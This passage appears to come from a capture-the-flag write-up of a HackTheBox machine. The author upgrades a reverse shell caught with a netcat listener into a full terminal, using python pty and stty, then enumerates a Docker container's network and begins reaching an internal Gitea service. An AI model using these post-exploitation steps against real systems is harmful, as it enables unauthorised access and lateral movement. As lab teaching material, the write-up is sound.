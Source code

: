 
This shell is a bit annoying, and output from Flask gets dumped into the
socket periodically as well.

I’ll [upgrade the shell](https://www.youtube.com/watch?v=DqE6DxqJg8Q) using
Python and `stty` (since `script` isn’t in the container):

    
    
    /app # python3 -c 'import pty;pty.spawn("sh")'
    python3 -c 'import pty;pty.spawn("sh")'
    /app # ^Z      
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    /app # 
    

## Shell as dev01 on OpenSource

### Enumeration

#### Identify OpenSource

Even before getting a shell it was very clear that this application is running
from a Docker container. Now as root inside this container, and with no flags
yet, I need to figure out how to pivot to the host.

The IP address of this container is 172.17.0.8 (though that will different
depending on my VPN IP):

    
    
    /app # ifconfig eth0
    eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:08  
              inet addr:172.17.0.8  Bcast:172.17.255.255  Mask:255.255.0.0
              UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
              RX packets:337 errors:0 dropped:0 overruns:0 frame:0
              TX packets:302 errors:0 dropped:0 overruns:0 carrier:0
              collisions:0 txqueuelen:0 
              RX bytes:36134 (35.2 KiB)  TX bytes:81314 (79.4 KiB)
    

The default gateway for this box is 172.17.0.1, which is likely the host
running the container:

    
    
    /app # ip route
    default via 172.17.0.1 dev eth0 
    172.17.0.0/16 dev eth0 scope link  src 172.17.0.8
    

#### Identify Gitea

Remembering that there’s a service on port 3000 that I couldn’t access from my
host, I’ll try to access that here. `curl` isn’t on the box, but `wget` is,
and `-O-` will output to stdout:
